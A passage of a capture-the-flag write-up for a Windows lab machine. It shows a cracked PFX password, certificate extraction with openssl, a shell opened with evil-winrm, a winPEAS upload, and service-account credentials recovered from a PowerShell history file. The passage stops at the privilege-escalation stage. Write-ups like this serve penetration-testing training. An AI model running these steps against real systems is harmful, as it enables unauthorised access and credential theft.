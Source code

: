 ```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ john crackmeagain.hash --show                                    
legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx

1 password hash cracked, 0 left
```

- Now we just need to get the key and cert. We can follow the instruction for openssl [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)
- `openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key` we get the key we then need to choose a passphrase
- `openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt` we get the cert.
- We can use these key with evil-winrm `evil-winrm -i 10.10.11.152 -S -k legacyy.key -c legacyy.crt` and it works!  

![shell](../.res/2022-10-30-15-58-08.png)  

- We can get the user flag

## Privesc

- Let's take winpeas in the target `upload winPEASx64.exe` with evil winrm we just can use upload filename
- winpeas is catch by the AV.
- Let's go on with manual enumeration. We can use the commands listed [here](https://csbygb.gitbook.io/pentips/windows/powershell-cmd)
- After a while we can see that we have the history of the powershell commands
- Let's get it for more analysis `download C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- We have a password in it

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ cat ConsoleHost_history.txt 
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

- Let's connect with this user it will probably be less annoying
- So the user is svc_deploy and the pass is "E3R$Q62^12p7PLlC%KWaxuaV"

**Coming Soon**